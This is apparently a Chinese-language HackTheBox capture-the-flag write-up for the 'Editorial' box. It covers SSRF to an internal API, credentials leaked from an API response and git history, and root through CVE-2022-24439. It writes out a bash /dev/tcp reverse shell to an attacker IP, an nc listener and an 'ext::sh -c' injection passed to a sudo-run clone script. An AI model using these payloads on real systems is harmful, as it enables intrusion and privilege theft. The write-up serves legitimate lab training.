 ```yaml
---
title: "HTB-Editorial"
date: 2024-09-03
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O editorial.htb
```

![](./images/image-23.png)

开放端口：`**22**、**80**`

Server：`**nginx 1.18.0** （Ubuntu）`

### Dirsearch

```
dirsearch -u editorial.htb -t 50
```

![](./images/image-24.png)

访问：`http://editorial.htb/upload`

![](./images/image-25.png)

## SSRF

**Burpsuite**开启拦截，点击**Preview**

![](./images/image-26.png)

并且可以访问

![](./images/image-27.png)

由于允许输入url，这里尝试：**`127.0.0.1`**，成功得到回显。

![](./images/image-28.png)

尝试遍历端口服务

![](./images/image-29.png)

当端口为`5000`时，响应包出现不同

![](./images/image-30.png)

访问下载到一个文件

![](./images/image-31.png)

```
sudo apt install jq
cat file | jq
```

![](./images/image-32.png)

查看authors的api

![](./images/image-33.png)

![](./images/image-34.png)

```
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                                                                                                                                                                                                          
}
```

**Username：`dev`**

**Password：`dev080217_devAPI!@`**

ssh登录，获取到user.txt

![](./images/image-35.png)

## Privildge Escalation

发现隐藏的git目录

![](./images/image-36.png)

查看`git log`

![](./images/image-37.png)

![](./images/image-38.png)

```
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

**Username：`prod`**

**Password：`080217_Producti0n_2023!@`**

```
ssh prod@editorial.htb
```

![](./images/image-39.png)

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py

#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

这个python脚本可以指定一个参数进行仓库克隆。

### CVE-2022-24439

Git 允许自定义协议扩展，这意味着你可以定义自己的协议来处理特定的操作。通过这种机制，用户可以注册自己的协议处理程序，如 `ext::`。当 Git 遇到这种协议时，它会调用与之关联的命令。

百分号`%`可以理解为空格

![](./images/image-41.png)

```
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/hyh'
```

成功写入文件

同样方式写入反弹shell

```
prod@editorial:/opt/internal_apps/clone_changes$ echo "bash -i >& /dev/tcp/10.10.16.8/100 0>&1" >/tmp/revshell.sh

prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_chane_prod_change.py 'ext::sh -c cat% /tmp/revshell.sh|bash'

┌──(root㉿kali)-[/home/kali/Downloads]
└─# nc -lvnp 100
```

![](./images/image-42.png)

## Summary

**目录扫描**出upload页面

URL输入框存在**SSRF漏洞**，根据端口扫描并得到备份文件

**Git Log** 信息泄露获得prod用户权限

prod存在可以sudo执行的文件，**`CVE-2022-24439`**

先写入**反弹shell**文件，再用CVE进行任意文件执行，获取root权限
